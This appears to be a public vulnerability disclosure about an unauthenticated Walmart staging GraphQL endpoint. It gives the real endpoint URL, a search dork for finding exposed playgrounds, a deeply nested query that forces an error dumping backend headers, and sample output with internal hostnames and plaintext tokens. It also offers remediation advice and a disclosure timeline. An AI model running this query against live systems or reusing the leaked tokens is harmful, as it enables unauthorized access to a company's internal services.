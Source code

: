 # Overview

GraphQL is an exciting technology that simplifies how developers load data from back-end services and thousands of organizations are realizing the simplicity and power GraphQL enables for new applications. If and when a security issue does occur, the simplicity and power of GraphQL helps attackers to gain control of significantly more confidential data far faster than ever before.

Walmart appears to have exposed a graphql endpoint from their staging environment https://developer.api.stg.walmart.com/api-proxy/service/Store-Services/Store-GraphQL-API/v1/graphql to the public with no authentication, schema introspection enabled, and graphql playground enabled. This makes it trivial for an attacker to scrape the entire API surface area for issues.

A quick set of queries revealed that most of the information from this public graphql endpoint was information that would generally be publicly available which is a little less exciting. However, if you’re able to get the graphql gateway to produce an invalid request to an underlying system it dumps the entire request into the payload back to the requestor. This includes headers from the GraphQL Gateway to the backend microservice that handles the request. In Walmart’s case this included the names of the internal servers and services and the authorization and access tokens the GraphQL gateway was using to interact with those services.

# Locating this issue

This particular vulnerable server was found by searching google for a piece of text that only exists in GraphQL playgrounds.

Here's a screenshot of a server hosting the GraphQL Playground

![Playground](Playground.png)

More specifically, a simple google search for `"Hit the Play Button to get a response here"` revealed the exposed server.


# Note about GraphQL

The beauty of GraphQL is that you can easily bring in data related to an entity you are querying for. In this vulnerability we were able to write a query that the information about a store.

```
{
  storesBySearchTerm(searchTerm: "Monona", searchOptions: { maxResults: -1 }) {
    stores {
      displayName
      bulletinBoard {
        header
        messages {
          body
        }
      }
    }
  }
}

   
```

Once we confirmed we'd be able to run that query we were able to investigate the schema to explore additional query options:


```
    nearbyStores {
      
    }
```

It looks like we can find 25 nearby stores to the first store we queried. Then we can recursively call this

```
      nearbyStores {
        nearbyStores{
          displayName
        }
      }
```

Each additional nested NearbyStores result multiples our result size by 25. So in this case we'll get 625 results, add two more nested calls and you'll get 390625 results.

# Details

Running this query will first cause a timeout, running it again shortly after the timeout will cause a different error which will dump the request headers from the GraphQL Gateway's call to the underlying REST service. These headers include plain text auth tokens for the backend service.


Sample Query:

```
{
  storesBySearchTerm(searchTerm: "Monona", searchOptions: { maxResults: -1 }) {
    stores {
      displayName
      bulletinBoard {
        header
        messages {
          body
        }
      }
      nearbyStores {
        nearbyStores{
          displayName
        }
      }
    }
  }
}
}
```

Running this query several times causes the underlying service to timeout and then when the next request occurs it fails, dumping the full request with headers to the requester:

```
{
  "url": "http://store-front.stg-mt.store-finder.services.glb.prod.walmart.com:80/store-front/storefinder/stores?latitude=42.919756&longitude=-89.252756&nbrOfStores=11&distance=50&responseGroups=deptGroups%2CallServices%2Cevents&serviceTypes=ALL",
  "headers": {
    "access_token": "gsf51320fce430d45d2bdba0509908f775f",
    "client_id": "123",
    "language_code": "en",
    "wm_bu_id": "0",
    "wm_consumer.id": "fa0d07de-fb06-4790-bda2-73b283846c67",
    "wm_consumer.ip": "127.0.0.1",
    "wm_ifx.client_type": "INTERNAL",
    "wm_sec.auth_token": "ahhaCXP%^OST",
    "wm_svc.env": "prod",
    "wm_svc.name": "store-front",
    "wm_svc.version": "1.0.0",
    "wm_consumer.intimestamp": 1650386721185,
    "wm_qos.correlation_id": "123"
  }
}
```

# CWE-200: Exposure of Sensitive Information to an Unauthorized Actor

This is an example of not implementing authentication on a GraphQL endpoint.

The following actions would have prevented this issue from occuring: 
* If this GraphQL endpoint is not utilized by the user's browser to render content it should not be connected to the internet with a public IP but instead should only be accessible by necessary internal services
* GraphQL Authorization should be added at the gateway level
* Limit nested calls whenever possible.
* If there are underlying services involved, those services should validate the user's request token to ensure the user should see the required data
* Underlying services should not treat the graphql gateway as being in development mode and should use the same protections as production services
* Positive and Negative authorization-related integration and end to end tests would have caught the issue 
* Tools like https://github.com/zapier/apollo-server-integration-testing make it easier to automated integration tests that ensure the presence of an authorization token

# Disclosure

Apr 18th: Filed a responsible disclosure via Walmart’s website which ended up with Bugcrowd

Apr 19th: Walmart sends a message rejecting responsible disclosure as could not reproduce / false positive and closes ticket.

Apr 19th: I reached out to clarify and provide additional information. If Walmart is rejecting the report then I believe I am free to immediately disclose.

Apr 19th: Contact bugcrowd to see if anyone will be responding to my new comment on the closed ticket. Bugcrowd says it may be up to 2 weeks before I will get a response.

May 18th: Vendor is not accepting the issue as meeting criteria.

